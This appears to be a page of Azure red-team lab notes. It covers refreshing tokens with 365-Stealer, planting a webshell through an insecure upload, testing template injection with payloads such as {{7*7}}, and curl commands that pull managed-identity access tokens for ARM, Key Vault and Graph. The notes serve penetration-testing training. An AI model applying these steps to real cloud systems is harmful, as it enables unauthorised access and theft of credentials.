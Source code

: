 #### Refresh all tokens

* Access token is valid for 1 hour, can't be revoked.

* Refresh token is valid for 90 days but can be revoked.

```powershell
python 365-Stealer.py --refresh-all
```

## Insecure file upload

* Upload a webshell to a insecure webapp

* If command execution is possible execute command ```env```
* if the app service contains environment variables IDENITY_HEADER and IDENTITY_ENDPOINT, it has a managed identity.
* Get access token from managed identity using another webshell. Upload studentxtoken.phtml

## Server Side Template Injection

* SSTI allows an attacker to abuse template syntax to inject payloads in a template that is executed on the server side.

* That is, we can get command execution on a server by abusing this.
* Find we webapp which is vulnerable, test with injectin a expression ```{{7*7}}``` and see if it gets evaluated.
* The way expression is evaluated means that, most probably, either PHP or Python is used for the web app. We may need to run some trial and error methods to find out the exact language and template framework.
* Use ```{{config.items()}}``` and see if it works.
* Check if a managed identity is assigned (Check for the env variables IDENTITY_HEADER and IDENTITY_ENDPOINT)
* If code execution is possible execute the following to get a ARM access token for the managed identity:

```powershell
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

* Request keyvault Access token

```powershell
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

* Request AADGraph token

```powershell
curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://graph.windows.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
